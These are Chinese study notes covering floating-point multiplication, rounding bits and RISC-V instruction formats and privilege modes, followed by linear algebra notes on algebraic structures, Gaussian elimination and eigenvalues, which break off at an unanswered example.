Floating-Point Multiplication¶
\((s1\cdot 2^{e1}) \cdot (s2\cdot 2^{s2}) = (s1\cdot s2)\cdot 2^{e1+e2}\)
- Add exponents
- Multiply the significands
- Normalize
- Over/Underflow?
有的话要抛出异常，通过结果的指数判断。 - Rounding
- Sign
注意
Exponet 中是有 Bias 的，两个数的 exp 部分相加后还要再减去 Bias.
Example

Data Flow

- 右边往回的箭头: Rounding 后可能会进位。
- Incr 用于标准化结果，与右侧 Shift Right 配合。
Accurate Arithmetic¶
- Extra bits of precision (guard, round, sticky)
- guard, round
为了保证四舍五入的精度。
结果没有，只在运算的过程中保留 - sticky
末尾如果不为全 0, 则 sticky 位为 1, 否则为 0.
- guard, round
Example
Guard, round, sticky 位的作用 保留位和舍入位的作用可以提高精度，例如十进制中如果加上舍入位，那么在51和99之间的会向上舍入，而在50和00之间的会向下舍入，这样可以减少误差。 例如2.34+0.0256=2.3656,舍入为2.37，而2.34+0.02=2.36，舍入为2.36，存在1ulp的误差； 在有些情况下，结果左移之后将保护位变成了最低位，只剩下舍入位一位来进行舍入，这样会导致误差增大，而加上sticky位，可以保证在舍入位后面的位数不为0时，舍入位不会被舍去，从而提高精度。例如如果是2.34+0.0050001，如果没有sticky位，那么结果是2.3450，舍入到最近的偶数2.34，而有了sticky位，知道结果是比2.3450大，舍入到最近的偶数2.35。
在二进制中，就是1进0舍，例如小数点后第三位为最低位的1.100_10+0.000_00_11111=1.100_10，此时Guard位为1，Round位为0，Sticky位为1,如果没有sticky位，那么结果就是舍入到最近的偶数1.100，而有了sticky位，知道结果是比1.100_10大，舍入到1.101。
Key-point
总的来说，G位如果等于进制的一半，则看它的下一位R位，如果R位大于0了，那么进位，如果为0，那么看S位，如果S位大于0，那么进位。如果RS位都是0了，那么选择最近的偶数来进位。(LSB是奇数，进位；LSB是偶数，舍去屁股后面的)
损失不会超过 0.5 个 ulp.
instruction¶
| 寄存器 | ABI 名称 | 用途描述 | saver |
|---|---|---|---|
| x0 | zero | 硬件 0 | |
| x1 | ra | 返回地址（return address） | caller |
| x2 | sp | 栈指针（stack pointer） | callee |
| x3 | gp | 全局指针（global pointer） | |
| x4 | tp | 线程指针（thread pointer） | |
| x5 | t0 | 临时变量/备用链接寄存器（alternate link reg） | caller |
| x6-7 | t1-2 | 临时变量 | caller |
| x8 | s0/fp | 需要保存的寄存器/帧指针（frame pointer） | callee |
| x9 | s1 | 需要保存的寄存器 | callee |
| x10-11 | a0-1 | 函数参数/返回值 | caller |
| x12-17 | a2-7 | 函数参数 | caller |
| x18-27 | s2-11 | 需要保存的寄存器 | callee |
| x28-31 | t3-6 | 临时变量 | caller |
- R-Type: add, sub, and, or, xor, slt, srl, sll, sra, sltu
- I-Type: addi, andi, ori, xori, srli, slti, slli, srai, sltiu, lb, lh, lw, lbu, lhu, jalr,(CSR指令与ecall, ebreak等按I型立即数处理，但是OPCODE是system)
- S-Type: sb, sh, sw
- B-Type: beq, bne, blt, bge, bltu, bgeu
- J-Type: jal
- U-Type: lui, auipc
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| funct7 | rs2 | rs1 | funct3 | rd | opcode | ||||||||||||||||||||||||||
rd = rs1 op rs2,有时候rs1,rs2,又称为rs,rt
| 31 | 25 | 24 | 20 | 19 | 15 | 14 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||
| imm[12,10:5] | rs2 | rs1 | funct3 | imm[4:1,11] | opcode | ||||||||||||||||||||||||||
立即数为
最低位为0，不存；扩展到imm[12]位；将13位拼接完后，剩下高19位用inst[31]符号位填充,此时imm[11]可以不是符号位；imm[12]是符号位
| 31 | 12 | 11 | 7 | 6 | 0 | ||||||||||||||||||||||||||
| imm[20,10:1,11,19:12] | rd | opcode | |||||||||||||||||||||||||||||
立即数为
imm最低位0不存，此时imm[20]是符号位，imm相当于21位有符号数
,跳转范围是\(\pm 2^{20}\)
RISC-V 指令集有三种特权模式，分别是 Machine（M）、Supervisor（S）和 User（U），除此之外还有 Hypervisor（H）模式
| 等级 | 编码 | 名称 | 缩写 |
|---|---|---|---|
| 0 | 00 | User/Application | U |
| 1 | 01 | Supervisor | S |
| 2 | 10 | Hypervisor | H |
| 3 | 11 | Machine | M |
- M 模式是对硬件操作的抽象，有最高级别的权限。
- S 模式介于M模式和U模式之间，在操作系统中对应于内核态（Kernel）。当用户需要内核资源时，向内核申请，并切换到内核态进行处理。
- U 模式用于执行用户程序，在操作系统中对应于用户态，有最低级别的权限。
简单嵌入式系统应该至少有 M 模式，安全的嵌入式系统至少要有 M、U 两个模式，Unix-like 操作系统至少要有 M、S、U 三个模式。
特权模式用来分离、保护不同的运行环境。试图在低特权模式下执行高特权模式的指令会导致异常。
一个 hart（RISC-V hardware thread，指 RISC-V 处理器的一个执行单元）一般在 U 模式下运行应用程序，直到遇到 trap（比如系统调用、时间中断等），这时 hart 会切换到更高特权级的 trap handler，执行完后再切换回低权限模式继续执行。
除此之外，RISC-V 还规定了 Debug mode（D-mode），用于调试，它比 M 模式有更高的权限，有一些只有 D 模式才可以访问的 CSR 寄存器，也会保留一些物理地址空间。
Ended: 计算机组成与设计
LINEAR-ALGEBRA ↵
线性代数个人笔记¶
约 309 个字 预计阅读时间 1 分钟
发点牢骚¶
线性代数一开始给我的感觉并没有十分令人喜欢，甚至上第一节课的时候还觉得这门课有些不知所云：解方程，解方程有什么好讲的。在上大学以前从没有接触过的代数结构以及许多抽象的描述也让我痛苦了有这么一会儿。
好像顿悟是一瞬间的事，盯着那些符号在一个想象中的"线性空间"变来变去，当他们具体化以后又能解决一个个实际的数学问题。这也太美了。
这个学期学完了线代二之后，似乎我就与这门课没什么交集了。但是我想把我学到的东西记下来，不忍让它们在我的脑海里随时间慢慢淡去
最后，感谢教授这门课的吴志祥老师，让我一步一步感受到线性代数的美妙。
吴爷爷:我这门课很简单，只有简单的加减乘除四则运算，甚至除法都不太需要.
也感谢竺可桢学院的辅学学长们以及特别鸣谢旷世巨作LALU
前置知识¶
约 2618 个字 预计阅读时间 9 分钟
基本的代数结构¶
吴爷爷在每节课末尾都会飙车,第一节课起飞的是群环域
代数系统是什么
代数系统
一般地,我们把一个非空集合 \(X\) 和在 \(X\) 上定义的若干代数运算 \(f_1,...,f_k\) 组成的系统称为代数系统（简称代数系）,记作 \(<X:f_1,...,f_k>\)
说白了,代数系统就是把一个集合,以及你能对这个集合中的元素进行什么操作告诉你。
举个例子,我们小学(或者是幼儿园？)学过的整数(\(\mathbf{Z}\))的加法(+)就是一种代数系（\(<\mathbf{Z},+>\)）
要注意的是,代数系统上定义的运算必须保证封闭性,也就是运算后的结果必须仍然在集合 \(X\) 中
在整数的加法中,我们有以下运算性质
- 结合律 \((a+b)+c=a+(b+c)\)
- 单位元：存在一个元素 0,使得 \(a+0=0+a=a\)；
- 逆元：对于任意\(a\),存在一个元素\(−a\),使得 \(a+(−a)=(−a)+a = 0\) 。\(0\) 为单位元；
- 交换律：\(a+b=b+a\)
平平无奇,对吧,那么我们现在来抽象一下
在集合\(G\)上的运算\(◦\),我们有以下性质
- 结合律 \((a ◦ b) ◦ c=a ◦ (b ◦ c)\)
- 单位元：存在一个元素 \(e\),使得 \(a ◦ e=e ◦ a=a\)；
- 逆元：对于任意\(a\),存在一个元素\(\overline{a}\),使得 \(a ◦ \overline{a} = \overline{a} ◦ a = e\) \(e\) 为单位元；
- 交换律：\(a ◦ b=b ◦ a\)
注意上面的定义是抽象的,忽略集合中元素的意义差异（元素可以表示实数,也可以在表示平面向量等几何对象）,同时也可以忽略运算定义的差异,只关心运算作用于集合元素的性质.
接下来,我们就可以介绍群,环,域三个代数系统了
群
若运算 ◦ 满足结合律,则称代数系统 \(〈G : ◦〉\) 为半群；若在半群基础上存在单位元, 则称之为含幺半群；若在含幺半群基础上每个元素存在逆元,则称之为群；若在群的 基础上运算还满足交换律,则称之为 Abel 群,也称交换群.
- 群的单位元唯一：若存在两个单位元\(e_1,e_2\),则\(e_1=e_1◦ e_2=e_2\)
- 群中每一个元素逆元唯一:设 \(b\) 和 \(c\) 都是 \(a\) 的逆元,则 \(b = b ◦ e = b ◦ (a ◦ c) = (b ◦ a) ◦ c = e ◦ c = c.\)
环
我们称代数系统 \(〈R : +, ◦〉\) 为一个环,如果
- \(〈R : +〉\) 是交换群,其单位元记作 0；
- \(〈R : ◦〉\) 是幺半群；
- 运算 \(◦\) 对 \(+\) 满足左、右分配律,即
\(a ◦ (b + c) = a ◦ b + a ◦ c\)
\((b + c) ◦ a = b ◦ a + c ◦ a\)
若进一步每个非 0（+ 运算单位元）元素关于 ◦ 都有逆元,则称之为除环. 另外,若 上述定义中 ◦ 运算满足交换律,则称为交换环.
域
我们称代数系统 \(〈F : +, ◦〉\) 为一个域,如果
- \(〈F : +〉\) 是交换群,其单位元记作 0；
- \(〈F^* : ◦〉\) 是交换群；其中\(F^*\)指\(F\)去掉\(+\)的单位元
- 运算 \(◦\) 对 \(+\) 满足左、右分配律,即
\(a ◦ (b + c) = a ◦ b + a ◦ c\)
\((b + c) ◦ a = b ◦ a + c ◦ a\)
我们可以结合一下交换环和除环,在环中定义的\(〈R : ◦〉\) 是幺半群就变成了群,此时,这个交换除环满足所有域的要求,也就是说,交换除环即为域。
关于数域,我们有如下两个结论：
- 数集 \(F\) 对数的加法和乘法构成数域的充要条件为：\(F\) 包含 0,1 且对数的加、减、 乘、除（除数不为 0）运算封闭；
- 任何数域都包含有理数域 \(\mathbf{Q}\),即 \(\mathbf{Q}\) 是最小的数域.
引入了代数结构之后,我们可以把它们暂且理解为一种模型,就像我们高中练了千百道题目之后,提炼出来了一种普遍的做法,在发现许多具体的代数系统的共性之后,我们也可以把它们模型化,而不必重复研究同样的东西了。
等价关系¶
我们时常需要讨论集合中元素之间的关系. 例如直线间的平行、垂直、相交,或是数之间的大于、等于、小于关系.“关系” 将会多次出现在线性代数的学习过程中,因此我们很有必要在此形式化定义这一概念,并强调其中一类特定的关系——等价关系.
从最简单的二元关系开始,在此之前,有必要引入集合的笛卡尔积
Info
设 \(A\) 和 \(B\) 是两个非空集合,我们把集合 \(A × B = \{(a, b) | a ∈ A, b ∈ B\}\) 称为集合 \(A\) 和 \(B\) 的 笛卡尔积.
我们熟悉的平面点集就是一种\(\mathbf{R} \times \mathbf{R}\)的具体表示,空间点集就是一种\(\mathbf{R} \times \mathbf{R} \times \mathbf{R}\)的具体表示
回到我们的二元关系中,在人类\(\times\)人类这个笛卡尔积上,(老师a,学生b)这一有序对定义了一种师生关系,更规范一点,我们可以这样写
那么将人类\(\times\)人类这一集合中所有的师生放在一起,就构成了人类中的师生关系
我们把人类\(\times\)人类抽象为集合\(G \times G\),将师生关系抽象为\(R\)这一种关系。就可以研究更多其它的东西了。
接下来,我们先引出关系中不得不讨论的以下几个性质
自反性: \(\forall a \in G,aRa\),也就是集合中的元素自己和自己满足这种关系,显然师生关系没有这个性质,但是实数上的\(\leqslant\)满足这个性质
对称性 \(a R b \Rightarrow b R a\),例如平行关系
传递性 \(a R b,b R c \Rightarrow a R c\),例如\(\leqslant\)关系
定义
偏序关系:仅不满足对称性的关系叫偏序关系,例如整除关系
等价关系:以上性质全部都满足的关系叫做等价关系
有了等价关系\(R\),我们可以由这个关系对集合进行一些划分
Example
整数域\(Z\)上,模2同余是一种等价关系,在这种关系下,我们可以不用考虑这么多无穷无尽的数字,只需要考虑两种元素,模2余1的元素和模2余0的元素,也就是我们早已熟知的:奇数和偶数
这种划分实在是有效,我们可以把等价的元素装在一起,起名为等价类
等价类
若\(R\)是集合\(G\)上的一个等价关系,若\(a,b \in G,a R b\),则称\(a,b\)等价,所有\(G\)中与\(a\)等价的元素构成的集合可以称为\(a\)所在的等价类 {\(b \in A | bRa\)},可以表示为 \(\overline{a}\)
那么自然想到整数可以划分为{\(\overline{0},\overline{1}\)},其实不取0和1,取2和3也是一样的,只需要取出这个等价类里面的一个代表元就可以了.
最后,我们来一点正式的定义
分划
设 \(R\) 是集合 \(A\) 的等价关系,则由所有不同的等价类构成的子集族 {\(\overline{a}\)} 是 \(A\) 的分划. 反之,我们也可以基于分划在 \(A\) 中定义等价关系.
商集
设 \(R\) 是集合 \(A\) 的等价关系,以关于 \(R\) 的等价类为元素的集合（实际上是集合构成 的集合,又称集族）{\(\overline{a}\)} 称为 \(A\) 对 \(R\) 的商集,记为 \(A/R\). 由 \(\pi(a) = a, \forall a ∈ A\) 定义的 \(A\) 到 \(A/R\) 上的映射 \(\pi\) 称为 \(A\) 到 \(A/R\) 上的自然映射.
高斯消元法¶
不就是加加减减,有什么好单独拿出来说的呢(
等你考试解错这个送分题就老实了)
一般的,对于一个由 \(m\) 个方程组成的 \(n\) 元（即变量数为 \(n\)）线性方程组
将其系数排列成矩阵
且记\(\vec{b}=(b_1,b_2,\ldots,b_m)^\mathrm{T}\),若 \(\vec{b}=\vec{0}\) 则称此方程为齐次线性方程组,否则为非齐次线性方程组. 再将\(n\)个未知量记为\(n\)元列向量\(X=(x_1,x_2,\ldots,x_n)^\mathrm{T}\),我们便可以把方程组简记为\(AX=\vec{b}\).
Info
T代表转置,也就是要竖着写
令\(\vec{\beta}_i=(a_{1i},a_{2i},\ldots,a_{mi})^\mathrm{T}\),即方程组系数矩阵的某一列,则方程组还可以记为\(x_1\vec{\beta}_1+x_2\vec{\beta}_2+\cdots+x_n\vec{\beta}_n=\vec{b}\),这一形式将在之后多次见到.
在以上的记号下,我们可以将解线性方程组的过程转化为矩阵的初等行变换. 高斯消元法的一般步骤如下：
线性方程组\(\overset{1}{\longrightarrow}\)增广矩阵\(\overset{2}{\longrightarrow}\)阶梯矩阵\(\overset{3}{\longrightarrow}\)（行）简化阶梯矩阵\(\overset{4}{\longrightarrow}\)解
- 步骤一:把矩阵写为\((A,b)\)的形式即可。
- 步骤二:从第一行开始,第一次用第一行消去下面几行的第一个元素,第二次用第二行消去下面几行的第二个,以此类推,做到最后一行只剩一个。
- 步骤三:从最后一行开始,此时最后一行只剩最后一个,用最后一行消去上面所有行的最后一个(如果可能的话),这样倒数第二行只剩一个,继续做下去直到消去不了。
- 步骤四:这里有三种情况
- 无解:如果出现0=常数的情况,那就是无解(不是常数=0)
- 唯一解:简化阶梯矩阵(系数矩阵)是\(n\times n\)的,且没有全0行。后面我们直接可以用系数矩阵可逆(行列式不为0)来直接判断
- 有无用的矩阵,体现为简化阶梯矩阵有全0行,更一般地说,有效方程个数少于未知数的个数,设出自由未知量将其令为\(k_1,k_2,\ldots\),然后代入增广矩阵对应的方程组即可
累了,这一部分就写这么多吧
我不更了，我写LALU去了¶
约 9 个字
讲义-特征值专题¶
约 8170 个字 预计阅读时间 28 分钟
参考书目：《线性代数:未竟之美》
本讲义用于竺可桢学院线性代数线上辅学课程，奈何本人水平有限，有些地方在课程中可能表述不清晰，还请多多包涵。
引入¶
Quote
线性代数的一大目标是:我们希望找到出发空间和到达空间合适的基使得线性映射在这两组基下的表示更简单(尽可能多的零,尽量向对角矩阵靠近).我们将眼光放在线性变换，即出发空间和到达空间相同的线性映射，并且我们关注 出发空间与到达空间取同一组基的时候，如何取基，可以把同一个线性映射的矩阵尽可能表示得简单 ；
基的转换<->矩阵的转换
从矩阵在不同基下的的表示出发
假设我们有一个在 \(n\) 维线性空间 \(\mathbf{V}\) 上线性变换 \(\sigma\) ,其在基 \(\mathbf{B}=\{\varepsilon_1,\varepsilon_2,\ldots,\varepsilon_n\}\) (\(\mathbf{B}\) 的每个列向量是都是一个基)下的矩阵为 \(A\),即
假设我们很幸运,找到了另外一组基 \(\mathbf{B'}=\{\varepsilon_1',\varepsilon_2',\ldots,\varepsilon_n'\}\),并且已知这个线性映射在这组基下的矩阵很漂亮,是对角的\(\Lambda\),即
如果又恰好知道两组基之间的过渡矩阵
那么我们可以推导出
\(P\)为什么一定可逆？(基之间的互相表示)
继续由上面的式子(1)，我们展开,\(p_i\)为矩阵\(P\)的第\(i\)个列向量
展开对应相等
Key-point
这一过程给我们的启发是，如果我们知道\(A\)可以达到的对角化的矩阵是怎么样的,那么可以逆推出变换矩阵,从而找出这组基是怎么样的;上面的\(\lambda_i\),与\(p_i\)就是我们今天要讨论的特征值与特征向量，如何寻找它们就是我们今天的重点；
特征值与特征向量¶
定义¶
Definition
设\(\sigma\)是线性空间\(V(\mathbf{F})\)上的一个线性变换，如果存在数\(\lambda\in\mathbf{F}\)和非零向量\(\xi\in V\)使得\(\sigma(\xi)=\lambda\xi\)，则称数\(\lambda\)为\(\sigma\)的一个特征值，并称非零向量\(\xi\)为\(\sigma\)属于其特征值\(\lambda\)的特征向量
同构地，对于矩阵而言，有:
设矩阵\(A\in \mathbf{M}_n(\mathbf{F})\)，如果存在数\(\lambda\in\mathbf{F}\)和非零向量\(X\in\mathbf{F}^n\)使得\(AX=\lambda X\)，则称数\(\lambda\)为\(A\)的一个特征值，称非零向量\(X\)为\(A\)属于其特征值\(\lambda\)的特征向量.
Property
设 \(\sigma\) 是 \(V(\mathbf{F})\) 上的线性变换，\(I\) 为恒等映射，则下述条件等价：
- \(\lambda \in \mathbf{F}\) 是 \(\sigma\) 的特征值；
- \(\sigma - \lambda I\) 不是单射 \(\Leftrightarrow\) \(A-\lambda E\) 列不满秩；
- \(\sigma - \lambda I\) 不是满射 \(\Leftrightarrow\) \(A-\lambda E\) 行不满秩；
- \(\sigma - \lambda I\) 不可逆 \(\Leftrightarrow\) \(A-\lambda E\) 不可逆(行列式为0)
对于第二第三条的矩阵版本有疑问的同学可以回顾 LALU 相抵标准型一节给出的定理:
线性映射是单射当且仅当其矩阵表示为列满秩矩阵,线性映射是满射当且仅当其矩阵表示为行满秩矩阵.
特征多项式¶
由上述性质，\(\lambda\in\mathbf{F}\)是\(\sigma\)的特征值等价于\(|\lambda E-A|=0\)，故我们可以通过\(|\lambda E-A|=0\)求解特征值，其中\(A\)为\(\sigma\)在某组基下的矩阵，\(E\)为单位矩阵. 对于特征向量的求解，求出\((\lambda E-A)X=0\)的非零解就是特征向量在基\(\alpha_1,\ldots,\alpha_n\)下的坐标，如果是矩阵的特征向量，那么\(X\)就是解.
上述求解特征向量的方法需要我们求解\(f(\lambda)=|\lambda E-A|\)的根，我们将\(f(\lambda)\)称为特征多项式；
Example
设\(A=\begin{pmatrix} 1 & -1 & 0 \\ 2 & 0 & 1 \\ 1 & a & 0 \end{pmatrix}\)，且存在非零向量\(\alpha\)使得\(A\alpha=2\alpha\)，求\(a\).
Answer
由题意知2是矩阵\(A\)的特征值，因此我们有
因此\(a=9\).
特征多项式可以写为以下的形式
对于\(n\)级矩阵\(A=(a_{ij})\)，记
则\(a_0=1\)，\(a_1=-\mathbf{tr}(A)\) ，\(a_n=(-1)^n|A|\) ，且\(a_k\)等于所有\(k\)级主子式之和乘以\((-1)^k\).
由韦达定理
一元n次韦达定理
设方程 \( a_0 x^n + a_{1} x^{n-1} + \cdots + a_{n-1} x + a_n = 0 \) 有根 \( x_1, x_2, \ldots, x_n \). 那么:
- 各根之和:
- 各根之积:
-
\(\displaystyle\sum_{i=1}^{n}\lambda_i=\sum_{i=1}^{n}a_{ii}\)；
-
\(\displaystyle\prod_{i=1}^{n}\lambda_i=|A|\).
相似与特征多项式¶
Question
- 相似矩阵有相同的特征多项式?（从而有相同的迹，行列式，特征值;），即\(A\sim B\)有\(|\lambda E-A|=|\lambda E-B|\)吗？反过来呢？
Answer
设\(B=P^{-1}AP\)，则\(|\lambda E-B|=|\lambda E-P^{-1}AP|=|P^{-1}(\lambda E-A)P|=|P^{-1}||\lambda E-A||P|=|\lambda E-A|\). 因此\(A\sim B\)有\(|\lambda E-A|=|\lambda E-B|\).
我们知道特征多项式相同则特征值相同，迹等于所有特征值之和，行列式等于所有特征值之积，因此相似矩阵有相同的迹，行列式，特征值.
- 如果是，那么同一特征值的特征向量之间有什么关系？
Answer
设\(P^{-1}AP=B\)，则\(A,B\)分别属于同一特征值\(\lambda\)的特征向量\(X\)和\(Y\)满足\(Y=P^{-1}X\).
由\(AX=\lambda_0 X\)以及\(A=PBP^{-1}\)，我们有\(PBP^{-1}X=\lambda_0 X\)，即\(BP^{-1}X=\lambda_0 P^{-1}X\)，因此\(P^{-1}X\)是\(B\)属于\(\lambda_0\)的特征向量，即\(P^{-1}X\)是\(B\)的特征向量，即\(Y=P^{-1}X\).
回忆基的选择导致同一向量在不同基下的坐标表示,实际上这个问题就是该定理的推论;
同一向量在不同基下的坐标表示
设线性空间\(V\)的两组基为\(B_1\)和\(B_2\)，且基\(B_1\)到\(B_2\)的变换矩阵（过渡矩阵）为\(A\)，如果\(\xi \in V(\mathbf{F})\)在\(B_1\)和\(B_2\)下的坐标分别为\(X\)和\(Y\)，则\(Y=A^{-1}X\).
将过渡矩阵的条件\(B_2=B_1A\)，即\((\beta_1,\ldots,\beta_n)=(\alpha_1,\ldots,\alpha_n)A\)代入上式可得：
又由于\(\xi\)在线性无关向量组\(\alpha_1,\ldots,\alpha_n\)下的坐标唯一，故我们有\(X=AY\)，即\(Y=A^{-1}X\).
Example
回答以下两个问题：
-
设 \(A,B\) 均为 \(n\) 阶矩阵，证明：\(\lambda\neq 0\) 是 \(AB\) 的特征值，则 \(\lambda\) 也是 \(BA\) 的特征值；
-
设 \(A\in \mathbf{M}_{m\times n}(\mathbf{C}),\enspace B\in \mathbf{M}_{n\times m}(\mathbf{C})\)，证明：
并由此推出 \(AB\) 和 \(BA\) 非零特征值相同，且 \(m=n\) 时有 \(|\lambda E-AB|=|\lambda E-BA|\).
Proof
- 设 \(X\) 是 \(AB\) 属于 \(\lambda\) 的特征向量，则 \(ABX=\lambda X\)，因此 \(B(ABX)=B(\lambda X)\)，即 \((BA)(BX)=\lambda(BX)\)，因此 \(BX\) 是 \(BA\) 属于 \(\lambda\) 的特征向量，故 \(\lambda\) 也是 \(BA\) 的特征值。
实际上这里还有一点需要说明，就是 \(BX\neq 0\)，否则它将不能作为特征向量。事实上证明是简单的，假设 \(BX=0\)，则 \(ABX=0\)，由于 \(\lambda\neq 0\)，因此必然有 \(X=0\)，但这与 \(X\) 是 \(AB\) 属于 \(\lambda\) 的特征向量矛盾，因此 \(BX\neq 0\)。
- 根据分块矩阵初等变换的性质，我们可以通过不断尝试选取到 \(P=\begin{pmatrix} E_m & A \\ O & E_n \end{pmatrix}\)，其逆矩阵为 \(P^{-1}=\begin{pmatrix} E_m & -A \\ O & E_n \end{pmatrix}\)，我们发现恰有
因此 \(\begin{pmatrix} AB & O \\ B & O \end{pmatrix}\) 与 \(\begin{pmatrix} O & O \\ B & BA \end{pmatrix}\) 相似，因此它们的特征多项式相同，即
根据行列式的计算性质 \(\begin{vmatrix} A & O \\ C & B \end{vmatrix} = |A||B|\)，我们有
即 \(\lambda^n|\lambda E_m-AB| = \lambda^m|\lambda E_n-BA|\)，因此 \(AB\) 和 \(BA\) 非零特征值相同，且 \(m=n\) 时有 \(|\lambda E-AB|=|\lambda E-BA|\).
对于可逆矩阵\(P\),我们知道了\(A\)与\(B=P^{-1}AP\)有相同的特征值，如果\(P\)不可逆，两个矩阵又有什么关系呢？
我们有以下结论
Property
设\(A,B\)分别为数域\(\mathbf{F}\)上\(n\)阶、\(m\)阶方阵，\(A,B\)有\(r\)个两两不等的公共特征值，则矩阵方程\(AX-XB=O\)有秩为\(r\)的矩阵解. 反之，若数域为复数域，矩阵方程\(AX-XB=O\)有秩为\(r\)的矩阵解，则\(A,B\)至少有\(r\)个公共的特征值（计重数）.
证明见 《LALU》.P465
Example
设\(m\)阶矩阵\(A\)与\(n\)阶矩阵\(B\)无公共复特征值，\(C\)为\(m\times n\)矩阵，则矩阵方程\(AX-XB=C\)存在唯一解.
Answer
设\(V\)是所有\(m\times n\)矩阵构成的线性空间，定义\(V\)上的线性变换\(\sigma(X)=AX-XB,\enspace X\in V\). 由于\(A\)和\(B\)无公共复特征值，所以\(\sigma(X)=AX-XB=O\)只有零解，即\(\sigma\)为\(V\)上单射，可知\(\sigma\)是满射且是同构映射. 于是，对任意的\(C\in V\)，都存在唯一的\(X_0\in V\)使得\(\sigma(X_0)=C\)，即矩阵方程\(AX-XB=C\)存在唯一解\(X_0\).
特征值的性质与结论¶
-
设\(\lambda\)是线性空间\(V(\mathbf{F})\)上的线性变换\(\sigma\)的特征值，\(\xi\)是\(\sigma\)属于\(\lambda\)的特征向量，则
-
\(k\lambda\)是\(k\sigma\)的特征值，\(\lambda^m\)是\(\sigma^m\)的特征值，且\(\xi\)仍是相应特征向量；
-
若\(f(x)=a_nx^n+a_{n-1}x^{n-1}+\cdots+a_1x+a_0\)是\(\mathbf{F}\)上的多项式，则\(f(\sigma)(\xi)=f(\lambda)\xi\)；
-
-
设\(\lambda\)是\(n\)阶矩阵\(A\)的特征值，\(A\)可逆，则\(\lambda^{-1}\)是\(A^{-1}\)的特征值，\(|A|\lambda^{-1}\)是\(A\)的伴随矩阵\(A^*\)的特征值，且特征向量不变.
-
设\(A\)为\(n\)阶矩阵，则\(A\)与\(A^\mathrm{T}\)有相同的特征值（含重数）.
-
\(A\)可逆/\(A\)不可逆/\(E+A\)可逆/\(4E+A\)不可逆；
-
\(|E-A^2|=0\)；
-
\(A^2=E\)（对合）/\(A^2=A\)（幂等）/\(A^k=0\)（幂零）；
-
\(A=\lambda_0E+B\)（\(\lambda_0\)为常数，且已知\(B\)的\(n\)个特征值为\(\lambda_1,\lambda_2,\ldots,\lambda_n\)）；
-
\(A\)为对角块矩阵，即\(A=\mathbf{diag}(A_1,A_2,\ldots,A_m)\).
Proof
1 由于\(\sigma(\xi) = \lambda\xi\)，则\((k\sigma)(\xi) = k\lambda\xi\)，即\(k\lambda\)是\(k\sigma\)的特征值，\(\xi\)仍是相应特征向量。
而\(\sigma^m(\xi) = \sigma^{m-1}(\sigma(\xi)) = \sigma^{m-1}(\lambda\xi) = \lambda\sigma^{m-1}(\xi) = \cdots = \lambda^m\xi\)，即\(\lambda^m\)是\(\sigma^m\)的特征值，\(\xi\)仍是相应特征向量。
2
利用前述\(\sigma^m\)的相关性质，我们有
$$ f(\sigma)(\xi) = (a_n\sigma^n + a_{n-1}\sigma^{n-1} + \cdots + a_1\sigma + a_0I)(\xi) $$
$$ = a_n\sigma^n(\xi) + a_{n-1}\sigma^{n-1}(\xi) + \cdots + a_1\sigma(\xi) + a_0I(\xi) $$
$$ = a_n\lambda^n\xi + a_{n-1}\lambda^{n-1}\xi + \cdots + a_1\lambda\xi + a_0\xi $$
$$ = f(\lambda)\xi. $$
3 设\(\xi\)是\(A\)的特征值，即\(A\xi = \lambda\xi\)，则\(\xi = A^{-1}A\xi = A^{-1}\lambda\xi\)，即\(A^{-1}\xi = \lambda^{-1}\xi\)，因此\(\lambda^{-1}\)是\(A^{-1}\)的特征值，\(\xi\)仍是相应特征向量。
又由于\(A\)可逆时\(A^* = |A|A^{-1}\)，根据前面关于\(k\sigma\)和\(A^{-1}\)特征值的讨论可知，\(|A|\lambda^{-1}\)是\(A\)的伴随矩阵\(A^*\)的特征值，\(\xi\)仍是相应特征向量。
4 我们用特征多项式证明。实际情况是，\(A^\mathrm{T}\)的特征多项式为\(|\lambda E - A^\mathrm{T}| = |(\lambda E - A)^\mathrm{T}| = |\lambda E - A|\)（回忆转置不改变行列式），实际上与\(A\)的特征多项式完全一致，因此\(A^\mathrm{T}\)与\(A\)有相同的特征值（含重数）。
5 \(A\)可逆时有 \(|A| = \lambda_1 \cdots \lambda_n \neq 0\)，因此\(A\)的特征值都不为0。 同理，\(A\)不可逆同理表明存在特征值等于0，\(E+A\)可逆表明\(-1\)不是\(A\)的特征值，\(4E+A\)不可逆表明\(-4\)是\(A\)的特征值。
6 \(|E - A^2| = |E - A||E + A| = 0\)，因此\(\pm 1\)都是\(A\)的特征值。
7 我们首先考虑对合矩阵，接下来的同理可以得到类似结论。由于\(A^2 = E\)，设\(AX = \lambda X\)，则\(A^2 X = \lambda^2 X = X\)，因此\(\lambda^2 = 1\)，即\(\lambda = \pm 1\)，因此\(1\)或\(-1\)是\(A\)的特征值。
注：本题解决过程中告诉我们一个解题技巧，如果看到\(A\)的多项式\(f(A) = O\)这种形式的表达式，事实上\(A\)的特征值只能是\(f(\lambda) = 0\)的根，如上题中\(f(A) = A^2 - E\)，则\(f(\lambda) = \lambda^2 - 1\)，因此\(A\)的特征值只能是\(\pm 1\)。
同理，我们可以知道幂等矩阵的特征值只能是0和1，幂零矩阵的特征值只能是0（这是一个重要的幂零矩阵等价条件，未来我们会再次遇到）。
8
设 \(BX = \lambda_i X_i\ (X_i \neq 0,\enspace i = 1,\ldots,n)\)，则
$$ AX_i = \lambda_0 X_i + BX_i = \lambda_0 X_i + \lambda_i X_i = (\lambda_0 + \lambda_i) X_i $$
因此\(\lambda_0 + \lambda_i \ (i = 1,\ldots,n)\)都是\(A\)的特征值。
9 证明：
因此，\(A_i,\enspace i = 1,\ldots,m\)的特征值都是\(A\)的特征值。
Example
-
设\(\alpha=(1,0,-1)^\mathrm{T}\)，且\(A=\alpha\alpha^\mathrm{T}\)，求\(|6E-A^n|\)；
-
设\(A\)为三阶矩阵，其特征值为\(1,-2,-1\)，求\(|A|\)，\(A^*+3E\)的特征值，\((A^{-1})^2+2E\)的特征值以及\(|A^2-A+E|\)；
-
设\(A\)为三阶矩阵，\(A^2-A-2E=O\)，\(|A|=2\)，求\(|A^*+3E|\)；
-
设\(A\)为三阶矩阵，其特征值为\(-1,-1,5\)，求\(A_{11}+A_{22}+A_{33}\)；
Answer
-
